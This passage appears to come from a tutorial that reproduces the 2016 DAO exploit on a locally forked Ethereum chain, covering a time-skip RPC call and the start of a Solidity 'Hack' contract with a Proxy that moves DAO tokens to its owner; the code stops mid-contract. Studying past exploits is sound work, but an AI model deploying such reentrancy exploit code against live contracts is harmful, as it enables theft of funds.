 Note that the `accounts` array is populated by our script, which used `web3.eth.getAccounts()` to get a list of all available accounts provided to us by the TestRPC. As well, we've pointed an instance of the DAO contract to the address [0xbb9bc244d798123fde783fcc1c72d3bb8c189413](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413), which is the original DAO account and code.

Again, for example's sake we're using some shorthand, so please follow along [with the script on github](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 3: Wait for the presale to end

Since we forked to a block that was mined the day before the presale ended, we have to jump forward in time by at least a few hours to get past the presale deadline. We decided to jump a day by calling a special method provided by the TestRPC, `evm_increaseTime`:

```javascript
web3.currentProvider.sendAsync({
  jsonrpc: "2.0",
  method: "evm_increaseTime",
  params: [86400],  // 86400 seconds in a day
  id: new Date().getTime()
}, callback);
```

This will tell the TestRPC to alter its timestamp by `86400` seconds. This feature allows you to write tests that have a time component, and in our case allows us to continue executing code after a deadline is reached.

### Step 4: Deploy our hack contract to the network

This hack contract was written by me, but it was heavily influenced by [this writeup](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) written by Phil Daian from [Hacking, Distributed](http://hackingdistributed.com/). Many thanks go to him for such a clear writeup.

From Github: [./contracts/Hack.sol](https://github.com/tcoulter/dao-truffle/blob/master/contracts/Hack.sol)
```solidity
import "DAOInterface.sol";

contract Proxy {
  DAOInterface DAO;
  address owner;

  function Proxy(address _dao) {
    owner = msg.sender;
    DAO = DAOInterface(_dao);
  }

  function empty() {
    if (msg.sender != owner) return;

    uint balance = DAO.balanceOf(this);
    DAO.transfer(owner, balance);
  }
}

contract Hack {
  uint public proposalID;
  DAOInterface public DAO;
  uint public calls_to_make;
  uint public calls;
  Proxy public proxy;

  function Hack(address _dao) {
    DAO = DAOInterface(_dao);
    calls = 0;
    proxy = new Proxy(_dao);
```
